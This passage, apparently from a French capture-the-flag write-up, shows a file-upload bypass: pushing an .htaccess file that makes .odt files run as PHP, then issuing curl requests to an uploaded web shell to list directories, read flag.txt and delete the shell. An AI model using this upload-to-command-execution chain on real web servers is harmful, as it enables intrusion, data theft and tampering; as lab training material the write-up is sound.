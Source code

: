 le fichier n'est pas interprété

-> pousser un fichier .htaccess associant le type php à l'extension de fichier `.odt`.

`.htaccess`
```
AddType application-x-httpd-php .odt
```

pousser via curl:

```sh
curl 'http://51.68.36.97/upload.php' --compressed -X POST -F fileToUpload=@.htaccess
```

### récupération du flag

https://www.urlencoder.org/ pour encoder nos commandes en paramètre GET.

on navigue dans l'arborescence, surtout en essayant de remonter cran par cran.
```sh
curl -v "http://$RHOST/uploads/cv-rda.odt?cmd=ls%20.."
```

et Jeannie Longo, on trouve un fichier flag.txt !
avec en bonus les sites des challenges 7 et 10 !

```sh
curl -v "http://$RHOST/uploads/cv-rda.odt?cmd=cat%20%20..%2F..%2Fflag.txt"
*   Trying 51.68.36.97:80...
* Connected to 51.68.36.97 (51.68.36.97) port 80
> GET /uploads/cv-rda.odt?cmd=cat%20%20..%2F..%2Fflag.txt HTTP/1.1
> Host: 51.68.36.97
> User-Agent: curl/8.5.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 12 Mar 2025 12:05:22 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 47
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 51.68.36.97 left intact
FLAG3{07993337ce7f0273a65ba0db8ee9b24623da7e1e}%  
```

My work is done here

## nettoyage

```sh
curl -v "http://$RHOST/uploads/cv-rda.odt?cmd=rm%20cv-rda.odt"
```

Il faudrait aussi supprimer le `.htaccess`.

## poursuite avec reconnaissance sur l'host
